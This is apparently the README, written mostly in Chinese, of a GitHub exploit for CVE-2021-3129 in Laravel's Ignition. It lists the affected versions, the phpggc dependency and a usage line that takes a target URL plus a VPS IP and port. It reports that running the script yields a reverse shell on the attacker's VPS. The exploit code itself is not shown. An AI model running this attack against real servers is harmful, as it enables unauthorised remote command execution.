


# CVE-2021-3129

影响范围  Laravel <= 8.4.2. Ignition <2.5.2

**仅供测试与研究使用**

**仅供测试与研究使用**

**仅供测试与研究使用**

# Environment

注意必须放在[phpggc](https://github.com/ambionics/phpggc)的目录下运行,且要有php-cli环境

# Usage
`python3 exp.py url vps_ip vps_port`

# 本地测试结果

如下图,在本地wsl中测试,在自己的vps上收到了shell

# Vulnerability analysis

https://ccdragon.cc/?p=2829

# Advantage

- 使用poc进行探测是否修复
- 优化了一小部分编码方式
